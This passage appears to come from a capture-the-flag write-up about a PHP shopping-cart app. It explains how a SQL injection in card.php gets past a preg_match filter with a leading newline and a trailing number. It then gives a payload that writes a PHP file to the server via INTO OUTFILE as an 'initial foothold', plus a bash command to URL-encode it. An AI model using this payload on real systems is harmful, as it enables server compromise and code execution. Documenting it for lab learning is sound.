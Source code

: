 ```php
                    <td class="price">&dollar;<?=$product['price'] * $products_in_cart[$product['id']]?></td>
                </tr>
                <?php endforeach; ?>
                <?php endif; ?>
            </tbody>
        </table>
        <div class="subtotal">
            <span class="text">Subtotal</span>
            <span class="price">&dollar;<?=$subtotal?></span>
        </div>
        <div class="buttons">
            <input type="submit" value="Update" name="update">
            <input type="submit" value="Place Order" name="placeorder">
	    <input type="submit" value="Clear" name="clear" onsubmit="">
        </div>
    </form>
</div>

<?=template_footer()?>

```

So after looking around in the filesystem, i found the `card.php` file. and it
looks like it is vulnerable to sql injection. so i tried to exploit it.

its kinda of a trick but let me explain. the card.php is like an api, where
things are served based on what the user give, eg in our case, the only we
exploit this app is to bypass the preg_match filter.

Thanks to hacktricks for this explanation on how to bypass the preg_match
filter. u can read more of it here
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)

In simple terms we can bypass it by supplying a `\n` at the beginning of the
payload.

And the second part of the regex requires us to have a number at the end. dont
forget our if statement its an OR operation, so if we have a single false, then
we gonna end up not running the sql injection, therefore we need to have a
number at the end of the payload. aka the filename should end with a number.php
(the extension does not matter, as long as it is a number)

## Initial Foothold

```sql
\n'; select '<?php phpinfo(); ?>' into outfile '/var/lib/mysql/230.php'; --1
```

we use bash to get a urlencode version of this (u need to install `urlencode`)

```bash
echo -n "\n'; select '<?php phpinfo(); ?>' into outfile '/var/lib/mysql/230.php'; --1" | urlencode -c ";"
```
